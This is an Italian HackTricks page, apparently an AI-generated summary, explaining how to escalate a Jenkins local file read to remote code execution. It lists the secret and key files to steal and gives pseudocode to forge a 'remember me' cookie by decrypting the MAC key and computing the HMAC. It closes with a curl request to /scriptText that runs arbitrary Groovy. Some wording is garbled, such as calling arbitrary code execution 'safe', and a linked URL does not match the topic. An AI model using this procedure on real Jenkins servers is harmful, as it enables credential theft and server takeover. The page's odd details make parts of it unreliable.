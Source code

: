 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'AI della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Requisiti per l'attacco

* **Requisito di funzionalità:** "Ricordami" deve essere abilitato (impostazione predefinita).
* **Livelli di accesso:** L'attaccante ha bisogno di permessi Generali/Di lettura.
* **Accesso segreto:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Processo di sfruttamento dettagliato

#### Passo 1: Raccolta dati

**Recupero delle informazioni utente**

* Accedere alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
* **Nome utente**
* **Seed utente**
* **Timestamp**
* **Hash della password**

**Estrazione della chiave segreta**

* Estrarre le chiavi crittografiche utilizzate per firmare il cookie:
* **Chiave segreta:** `$JENKINS_HOME/secret.key`
* **Chiave master:** `$JENKINS_HOME/secrets/master.key`
* **File chiave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forgiatura del cookie

**Preparazione del token**

*   **Calcolare il tempo di scadenza del token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Aggiunge un'ora all'ora attuale
```
{% endcode %}
*   **Concatenare i dati per il token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Decrittazione della chiave MAC**

*   **Decrittare il file chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertire la chiave master nel formato chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decrittare il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcolo della firma**

*   **Calcolare HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcolare HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac)  // Convertire la MAC in una stringa esadecimale
```

**Codifica del cookie**

*   **Generare il cookie finale:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificare in Base64 i dati del cookie
```
{% endcode %}

#### Passo 3: Esecuzione del codice

**Autenticazione della sessione**

* **Recuperare i token CSRF e di sessione:**
* Effettuare una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
* Catturare `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie "remember-me".

**Richiesta di esecuzione del comando**

*   **Inviare una richiesta POST con uno script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
